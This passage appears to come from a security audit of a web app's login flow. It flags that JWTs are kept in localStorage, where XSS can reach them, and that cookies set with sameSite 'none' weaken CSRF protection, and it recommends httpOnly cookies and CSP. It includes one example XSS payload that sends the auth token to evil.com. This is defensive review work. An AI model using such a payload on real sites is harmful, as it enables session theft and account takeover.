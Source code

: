 #### The Vulnerability:

```javascript
// LoginPage.jsx - XSS Vulnerable
localStorage.setItem('authToken', jwt)  // ❌ Accessible to any script
```

#### Attack Vector:

**XSS Attack Example:**
```javascript
// Attacker injects script via comment field, listing description, etc.
<script>
  fetch('https://evil.com/steal?token=' + localStorage.getItem('authToken'))
</script>
```

#### Your Defense:

```javascript
// Refresh token IS protected:
res.cookie('refreshToken', token, {
  httpOnly: true  // ✅ JavaScript can't access this
})

// But access token is NOT:
localStorage.setItem('authToken', jwt)  // ❌ XSS vulnerable
```

#### OWASP 2025 Recommendation:

**Option 1:** Store JWT in httpOnly cookie (like refresh token)
```javascript
res.cookie('accessToken', jwt, {
  httpOnly: true,
  secure: true,
  sameSite: 'strict',
  maxAge: 15 * 60 * 1000
})
```

**Option 2:** Accept the risk (15-minute window is short)
- Document the trade-off
- Implement CSP (Content Security Policy)
- Add XSS input sanitization

**Follow Up Boss** uses Option 1 (httpOnly for everything).

---

### 6. sameSite: 'none' Weakens CSRF Protection: **MEDIUM** ⚠️

#### Current Configuration:

```javascript
res.cookie('refreshToken', token, {
  sameSite: 'none'  // ⚠️ Allows cross-site requests
})
```
